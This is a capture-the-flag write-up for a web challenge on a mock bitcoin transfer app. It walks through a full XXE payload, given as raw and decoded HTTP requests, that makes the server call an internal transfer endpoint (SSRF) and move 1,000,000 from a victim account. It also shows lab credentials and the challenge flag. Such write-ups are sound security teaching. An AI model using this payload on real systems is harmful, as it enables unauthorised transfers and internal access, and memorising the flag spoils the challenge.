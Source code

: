 Solution
========

This challenge was the conclusion of a series of challenges, all connected together through a story, and so you need some information collected in the previous ones.

The first step is to login in the application and understand how it works. You can login using the credentials `nakemeigbo1@sapo.pt:h9AvhRDPDKSfxpBqfMer9FzD`, obtained in the previous challenge. You also know, from other previous challenge, that your victim is `bruce@shaydmail.org`.

Your account has already some balance, so you can use it to test the application. Transfer 1 bitcoin to `bruce@shaydmail.org` and notice the request being made:


```HTTP
POST /operations.php HTTP/1.1
Host: localhost:8050
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: pt,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost:8050/account.php
Content-Length: 253
Cookie: PHPSESSID=cda8441cc2e3122cfe048fcc587e0dff
DNT: 1
Connection: close

xml=%3C%3Fxml+version%3D'1.0'+encoding%3D'ISO-8859-1'%3F%3E%3Ctransfer%3E%3Cto%3Ebruce%40shaydmail.org%3C%2Fto%3E%3Cfrom%3Enakemeigbo1%40sapo.pt%3C%2Ffrom%3E%3Camount%3E1%3C%2Famount%3E%3Cid%3Ecda8441cc2e3122cfe048fcc587e0dff%3C%2Fid%3E%3C%2Ftransfer%3E

```

The `xml` parameter seens promissing. Here, url-decoded for clarity:

```XML
<?xml+version='1.0'+encoding='ISO-8859-1'?><transfer><to>bruce@shaydmail.org</to><from>nakemeigbo1@sapo.pt</from><amount>1</amount><id>cda8441cc2e3122cfe048fcc587e0dff</id></transfer>
```

Playing with the XML to trigger an error message, for instance by deleting the `<to>`. You get an error message showing some code:

```PHP
Error near line 20:

if (!account->get($from)) {
   throw new Exception('Invalid account');
}

// transfer between 2 accounts
$endpoint .= "/transfer.php?from=$from&to=$to&amount=$amount&id=$id";
```

From this you infer the `POST` with the XML triggers a backend request to `$endpoint`. You don't know to which hostname is the request being made, but the obvious guess is `localhost`.

So, right now you must be thinking *What if I invoke that internal endpoint switching the values of `to` and `from`, with the `amount` of 1000000*?

You can do that with a combination of an [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) and a [SSRF](https://cfdb.io/Web/Server-Side%20Request%20Forgery) you can do just that.

It is easier to detect and validate the XXE fetching an external entity that points to a server you control, but will go immediately for the solution:

```HTTP
POST /operations.php HTTP/1.1
Host: localhost:8050
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: pt,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost:8050/account.php
Content-Length: 523
Cookie: PHPSESSID=cda8441cc2e3122cfe048fcc587e0dff
DNT: 1
Connection: close

xml=%3C%3Fxml%20version%3D%271.0%27%20encoding%3D%27ISO-8859-1%27%3F%3E%3C!DOCTYPE%20xxx%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22http%3A%2F%2Flocalhost%2Ftransfer.php%3Fto%3Dnakemeigbo1%40sapo.pt%26from%3Dbruce%40shaydmail.org%26amount%3D1000000%26id%3Dcda8441cc2e3122cfe048fcc587e0dff%22%20%3E%5D%3E%3Ctransfer%3E%3Ca%3E%26xxe%3B%3C%2Fa%3E%3Cto%3Ebruce%40shaydmail.org%3C%2Fto%3E%3Cfrom%3Enakemeigbo1%40sapo.pt%3C%2Ffrom%3E%3Camount%3E1%3C%2Famount%3E%3Cid%3Ecda8441cc2e3122cfe048fcc587e0dff%3C%2Fid%3E%3C%2Ftransfer%3E
```

Decoded:
```XML
<?xml version='1.0' encoding='ISO-8859-1'?><!DOCTYPE xxx [<!ENTITY xxe SYSTEM "http://localhost/transfer.php?to=nakemeigbo1@sapo.pt&from=bruce@shaydmail.org&amount=1000000&id=cda8441cc2e3122cfe048fcc587e0dff" >]><transfer><a>&xxe;</a><to>bruce@shaydmail.org</to><from>nakemeigbo1@sapo.pt</from><amount>1</amount><id>cda8441cc2e3122cfe048fcc587e0dff</id></transfer>```

The server replies with 

```
success. Refresh to update your balance
```

meaning the transfer in the legit part of the XML went through. The only way to get feedback about our piggybacked request to the internal endpoint is to refresh your browser window and see if the balance was affected.

![Success]
(screenshots/success.png)

And it was! Success!


Flag
----

`1195254`


